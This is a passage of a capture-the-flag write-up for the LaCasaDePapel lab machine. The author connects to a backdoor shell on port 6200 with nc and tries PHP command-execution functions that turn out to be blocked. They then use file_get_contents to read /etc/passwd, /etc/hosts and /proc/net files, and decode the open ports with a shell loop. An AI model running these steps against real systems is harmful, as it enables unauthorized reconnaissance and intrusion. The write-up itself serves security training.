 Now that I have access to the backdoor through port **6200**, I try to use **[dangerous PHP functions to execute commands](https://gist.github.com/svmt/1426ae5deeb615ad2fb4ad8046f29431){:target="_blank"}**, but I'm unsuccessful because they are most likely blacklisted or there is a protection measure set. There are also other commands available, such as **ls** and **show**, that allow me to leak sensitive system information. In the code that defines a class I find the **file_get_contents** function implemented, so I use it to leak the contents of system files. I find system users, network interfaces and all the open ports on the machine, all information I can use later.

```bash
nc 10.10.10.131 6200
  whoami
  hostname
# :(
  eval('whoami')
  exec('whoami')
  system('whoami')
  shell_exec('whoami')
  help
# ls         List local, instance or class variables, methods and constants.              Aliases: list, dir
# show       Show the code for an object, class, constant, method or property.
  ls
  show $tokyo
  file_get_contents('/etc/hosts')
  file_get_contents('/etc/passwd')

rlwrap -cAr nc 10.10.10.131 6200
  file_get_contents('/proc/net/fib_trie')
  file_get_contents('/proc/net/fib_trie')
  file_get_contents('/proc/net/tcp')

cat Data | grep -v local_address
cat Data | grep -v local_address | awk '{print $2}' FS=" "
cat Data | grep -v local_address | awk '{print $2}' FS=" " | awk '{print $2}' FS=':'
cat Data | grep -v local_address | awk '{print $2}' FS=" " | awk '{print $2}' FS=':' | sort -u
for port in $(cat Data | grep -v local_address | awk '{print $2}' FS=" " | awk '{print $2}' FS=':' | sort -u); do echo -e "\n [+] Port $port --> $((0x$port))"; done
```

<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
